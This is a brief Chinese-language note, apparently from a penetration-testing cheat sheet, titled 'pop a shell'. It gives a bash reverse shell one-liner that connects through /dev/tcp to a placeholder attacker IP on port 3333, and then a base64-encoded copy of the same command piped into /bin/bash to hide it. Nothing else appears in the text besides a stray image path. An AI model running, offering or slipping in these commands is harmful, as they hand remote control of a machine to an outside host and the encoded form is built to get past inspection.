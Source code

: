 ### 弹shell

标准命令

```bash
bash -i >& /dev/tcp/ip/3333 0>&1
```

bash编码版本

```(空)
echo YmFzaCAtaSA+JiAvZGV2L3RjcC9pcC8zMzMzIDA+JjE= | base64 -d |/bin/bash
```



